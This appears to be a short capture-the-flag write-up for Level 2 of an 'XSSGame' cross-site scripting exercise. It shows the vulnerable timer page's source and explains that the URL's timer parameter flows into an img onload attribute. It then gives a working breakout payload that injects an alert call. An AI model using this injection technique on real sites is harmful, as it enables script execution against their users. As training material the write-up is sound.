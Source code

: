 ### XSSGame Level 2 Writeup 
 ![2-1](https://github.com/user-attachments/assets/ff827c26-9eef-48b9-bc75-b20e465a8303)



When I first opened the challenge, I noticed an **input field** that takes a number, along with a **"Create Timer"** button.  
I clicked the button to understand how it works and then checked the **page source code**.

Here’s what I found:

```html
<html>
  <head>
    <script src="/static/js/js_frame.js"></script>
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() {
          window.confirm("Time is up!");
          window.loading.style.display = 'none';
          window.message.innerHTML = '<a href="?">Go back</a> to the timer setup page';
        }, seconds * 1000);
      }
    </script>
  </head>
  <body style="background-color: white;">
    <center>
      <h1 style="font-family: serif">
        webtim<span style="color: teal">r</span> <span style="color: green">pro</span>
      </h1>
      <img id="loading" src="/static/img/loading.gif" style="width: 50%" onload="startTimer('3');" />
      <br>
      <div id="message">Your timer will execute in 3 seconds.</div>
  </center>
  </body>
</html>
```

I noticed that the value we enter ends up inside the `onload` attribute of the `<img>` tag, like this:

```html
onload="startTimer('3');"
```

This value is taken from the `timer` parameter in the **URL**.

So this is the injection point where we can place our payload.

After a few attempts, I found that this payload worked:

```text
3');alert('1
```

This results in:

```html
onload="startTimer('3');alert('1')"
```

And it successfully triggers an **alert box**, confirming that the XSS is exploitable through the `onload` attribute.

![2-2](https://github.com/user-attachments/assets/bfbc082a-160d-4867-b602-f86ed6aa8cde)

---
